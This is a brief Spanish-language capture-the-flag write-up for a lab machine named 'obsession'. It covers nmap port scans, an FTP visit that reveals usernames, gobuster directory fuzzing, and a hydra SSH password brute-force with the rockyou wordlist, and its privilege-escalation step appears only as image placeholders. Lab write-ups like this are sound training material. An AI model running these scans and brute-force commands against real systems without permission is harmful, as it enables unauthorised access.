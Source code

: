 ### Maquina obsession

## Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 172.17.0.2

21/tcp open  ftp     syn-ack ttl 64
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

## Servicios y versiones

sudo nmap -sVC --min-rate 6000 -p21,22,80 -vvv -Pn 172.17.0.2

![alt text](image.png)

## Entramos por fpt

ftp 172.17.0.2

![alt text](image-1.png)

del archivo chat-gonza.txt obtuvimos los usuarios gonza, nagora, russoski

del archivo pendientes.txt obtuvimos que un usuario tiene permisos SUID

## Visitando la web

obtuvimos el usuario russoski

## Fuzzing web

gobuster dir -t 200 -u http://172.17.0.2:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,sh,py,js,html -r -b 403,404

en http://172.17.0.2/backup/backup.txt reafirmamos que existe el usuario russoski

## ataque con hydra

hydra -l russoski -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 4 -I

![alt text](image-2.png)


## Intrusion y Escalar privilegios

![alt text](image-3.png)

